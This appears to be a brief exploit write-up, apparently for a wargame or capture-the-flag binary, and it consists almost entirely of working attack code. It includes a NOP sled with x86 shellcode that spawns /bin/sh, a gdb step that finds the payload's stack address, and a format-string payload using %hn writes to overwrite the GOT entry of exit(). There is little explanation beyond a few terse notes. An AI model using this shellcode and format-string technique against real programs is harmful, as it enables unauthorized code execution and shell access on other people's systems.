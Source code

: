 ```python

python -c 'print "\x90"*100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'

```

PAYLOAD

```bash
(gdb) p/d 0xffffdf40 #adress of PAYLOAD in stack
$1 = 4294958912
```

0xffff is 65535 heigh order bits
0xdf40 is 57152 low order bits

the 10th argument where we can write

got of exit() = 0x80497e0 0x80497e2

python -c 'print "\x08\x04\x97\xe0"[::-1]+"\x08\x04\x97\xe2"[::-1]+ "%57144x%10$hn%8383x%11$hn"'>
